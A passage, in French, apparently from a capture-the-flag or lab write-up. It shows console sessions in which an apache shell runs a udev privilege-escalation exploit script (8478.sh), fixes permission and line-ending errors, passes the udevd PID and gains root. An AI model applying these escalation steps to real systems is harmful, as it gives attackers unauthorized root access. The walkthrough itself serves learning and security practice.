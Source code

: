 Premier essai : raté, il faut ajouter la permission d'exécution au fichier.

```console
bash-3.2$ ./8478.sh
./8478.sh
bash: ./8478.sh: Permission denied
bash-3.2$ chmod +x 8478.sh
chmod +x 8478.sh
```

Deuxième essai : raté, il y a un petit souci de syntaxe facilement résoluble en une ligne de commande.

```console
bash-3.2$ ./8478.sh
./8478.sh
bash: ./8478.sh: /bin/sh^M: bad interpreter: No such file or directory
bash-3.2$ sed -i -e 's/\r$//' 8478.sh
sed -i -e 's/\r$//' 8478.sh
```

Troisième essai : il aurait fallu que je lise attentivement le modop de cet exploit.

```console
bash-3.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)

bash-3.2$ ./8478.sh
./8478.sh
suid.c: In function 'main':
suid.c:3: warning: incompatible implicit declaration of built-in function 'execl'
/usr/bin/ld: cannot open output file /tmp/suid: Permission denied
collect2: ld returned 1 exit status
./8478.sh: line 131: 18439 Segmentation fault      /tmp/udev $1

bash-3.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
```

En effet, il faut passer le PID du gestionnaire de périphériques ```udev``` en paramètre du script.

```console
bash-3.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)

bash-3.2$ ps -ef | grep udev
ps -ef | grep udev
root       379     1  0 07:10 ?        00:00:00 /sbin/udevd -d

bash-3.2$ ./8478.sh 379
./8478.sh 379
suid.c: In function 'main':
suid.c:3: warning: incompatible implicit declaration of built-in function 'execl'
/usr/bin/ld: cannot open output file /tmp/suid: Permission denied
collect2: ld returned 1 exit status
sh-3.2#

sh-3.2# id
id
uid=0(root) gid=0(root) groups=48(apache)
```
